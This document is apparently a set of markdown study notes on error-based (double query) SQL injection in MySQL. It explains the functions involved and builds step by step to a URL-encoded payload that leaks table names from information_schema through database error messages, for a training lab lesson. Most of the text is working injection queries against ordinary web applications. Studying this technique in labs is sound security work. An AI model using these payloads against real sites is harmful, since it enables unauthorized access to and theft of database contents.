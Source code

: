 # Error Based (Double Query) SQL Injection

- `A double query` combining two queries into a single query and getting the information through the SQL error message from the database. 

- Union injection can not be used when the web pages fail to retrieve any results (Error, Expected Results) from the database while we inject it with a single query, Then we should use double query SQL injection technique. It is a manual injection technique to dump the data from the database.

[Reference](https://securiumsolutions.com/blog/sql-injection-by-double-query-securiumsolutions/#:~:text=A%20double%20query%20SQL%20injection,error%20message%20from%20the%20database.)


# Mysql Query for Error Based Injection

## 1. `Sub-Query` or `Double Query`

- `A subquery is a SQL query nested inside a larger query.`

- A subquery may occur in :
    - A SELECT clause
    - A FROM clause
    - A WHERE clause
The subquery can be nested inside a SELECT, INSERT, UPDATE, or DELETE statement or inside another subquery.
A subquery is usually added within the WHERE Clause of another SQL SELECT statement.


## 2. `rand()` 

- This function return random decimal number between 0 and 1.

## 3. `floor()`

- The function retrun largest inter value.(Less than or equal to a number)

## 4. `Group by`

- aggregate same values in the coulumn as single value

## 5. `count`

- Count the no. of rows that present in the database




# Theory of Error Based or Double Query Injection


1. Combine two queries into single query 
2. Use SQL_function and make application to show error message
3. dump juicy info through error message



# Example mysql_function to make application error

## 1. count()

`select count(*) from information_schema.tables;`

- display how many row in `information_schema.tables;`

## 2. rand() and floor()

`select rand();`
`select floor(rand()*2);`
`select floor(rand()*2)test;`


## 3. Double Query and Make Application Error

#### Extract Juicy info from error

`select x from y;`

#### Double Query

- `select database();`

- `select concat("::",database(),"::","CONCAT FUNCTION");`

- `select concat("::",database(),"::",floor(rand()*2));`

#### adding variable `a`

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns;`

#### `group by` with a

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`


#### use `count()` and making web application to error

`select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`

#### Modified query
`select(select 1 from (select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`


#### insert this query to `,database(),` area

`(select table_name from information_schema.tables where table_schema=database() limit 0,1)`



#### lab Full Query Query (ZD-Lab,SQLI,Lesson-5)

`AND+(select+1+from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b)--+`




























